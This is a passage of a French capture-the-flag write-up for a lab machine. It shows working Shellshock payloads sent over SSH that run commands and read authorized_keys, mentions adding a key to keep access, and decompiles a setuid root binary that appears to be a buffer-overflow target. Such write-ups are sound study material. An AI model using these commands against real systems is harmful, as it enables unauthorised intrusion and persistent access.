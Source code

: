 [bash - how can shellshock be exploited over SSH? - Unix &amp; Linux Stack Exchange](https://unix.stackexchange.com/a/157502)

Effectivement le serveur est bien vulnérable :

```bash
$ ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i noob noob@192.168.56.88 '() { :;}; echo MALICIOUS CODE'
MALICIOUS CODE
TRY HARDER LOL!
```

Et la config du CTF est bien celle décrite :

```bash
$ ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i noob noob@192.168.56.88 '() { :;}; cat .ssh/authorized_keys'
command="echo TRY HARDER LOL!" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwi2G/kLMyjm/rrcQymKVqy4EgUyJ+3Oyv7D5QV73IWECguqrINI+OuY+zIV49ykebBYR15HkBYi/9GYZmHRD5CHq9I+zCLHv/9Kdf9Ae+HQIaF/X/3PC0lIx6XLmgIY66MwuMNmOvK7U8rERPUJxSmLKWvaSAP9/LXVOHfcrCZyyCc+ir6kxsKHzojM0EResF2RgKfbbZ2MFqr6YSO9+ohdZBgGVncc1ngtW0b7mKf1u+RTnP7XeWxOkD2nHpghvKs8wwXNw6vE12lNjzqjPDTb4yYVph8zHKPYZst6PT6qeLArJ7lKwX540FEp2q9Ji2xUTXVLBCYXiKZ0k7Ru69 noob@Tr0ll2
```

De la même façon je peux rajouter une entrée au fichier `authorized_keys` qui n'a pas le préfixe `command=` et me connecter normalement. 

## Gonna pwnnnnnnnnnnnnnnnnnnnnnnnnnnn

A la racine du système on trouve un dossier `nothing_to_see_here` qui contient trois binaires setuid ayant le même nom :

```
/nothing_to_see_here/choose_wisely/door1:
total 8
-rwsr-xr-x 1 root root 7271 Oct  4  2014 r00t

/nothing_to_see_here/choose_wisely/door2:
total 8
-rwsr-xr-x 1 root root 7273 Oct  5  2014 r00t

/nothing_to_see_here/choose_wisely/door3:
total 12
-rwsr-xr-x 1 root root 8401 Oct  5  2014 r00t
```

Tous sont des programmes de petite taille. `Cutter` décompile le premier sous cette forme :

```c
#include <stdint.h>
 
int32_t dbg_main (void) {
    int32_t argc;
    char ** argv;
    const char * src;
    char [256] buf;
    /* int main(int argc,char ** argv); */
    if (argc == 1) {
        eax = argv;
        edx = *(eax);
        eax = "Usage: %s input\n";
        src = edx;
        printf (eax);
        exit (0);
    }
    eax = argv;
    eax += 4;
    eax = *(eax);
    eax = &buf;
```